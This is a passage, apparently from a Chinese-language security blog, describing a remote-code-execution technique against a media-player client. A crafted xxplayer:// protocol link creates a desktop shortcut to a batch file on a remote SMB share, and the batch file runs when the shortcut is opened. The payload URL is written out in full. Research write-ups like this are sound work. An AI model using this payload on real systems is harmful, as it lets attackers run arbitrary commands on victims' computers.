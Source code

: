 将`url`参数值设为`\\172.16.176.225\share\1.zip\1.bat`，然后访问`xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.zip\1.bat&name=123`创建桌面快捷方式，打开快捷方式即可执行`bat`文件，最终达到不需要任何依赖的情况下执行任意命令。

[![](assets/1703487068-e67fd2f507c422db52dfb66f6c0ed0b3.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772348064.jpg)

## 总结

简单总结一下以上两类客户端的攻击入口、RCE 风险和影响面。

[![](assets/1703487068-590969b04fda51cf06824f5dd46e10c1.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028779762348.jpg)

